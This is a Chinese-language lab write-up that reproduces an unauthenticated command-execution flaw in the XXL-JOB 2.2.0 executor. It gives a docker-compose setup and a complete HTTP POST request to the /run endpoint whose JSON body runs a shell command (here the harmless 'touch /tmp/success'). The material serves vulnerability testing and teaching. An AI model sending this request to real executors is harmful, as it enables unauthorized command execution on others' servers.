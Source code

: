 # XXL-JOB executor 未授权访问漏洞

XXL-JOB是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。现已开放源代码并接入多家公司线上产品线，开箱即用。XXL-JOB分为admin和executor两端，前者为后台管理页面，后者是任务执行的客户端。executor默认没有配置认证，未授权的攻击者可以通过RESTful API执行任意命令。

参考链接：

- https://landgrey.me/blog/18/
- https://mp.weixin.qq.com/s/jzXIVrEl0vbjZxI4xlUm-g

## 环境搭建

执行如下命令启动2.2.0版本的XXL-JOB：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可访问到管理（admin），访问`http://your-ip:9999`可以访问到客户端（executor）。

## 漏洞复现

未授权访问漏洞在客户端（executor），发送如下数据包，即可执行命令：

```
POST /run HTTP/1.1
Host: your-ip:9999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "touch /tmp/success",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

![](1.png)

`touch /tmp/success`已成功执行：

![](2.png)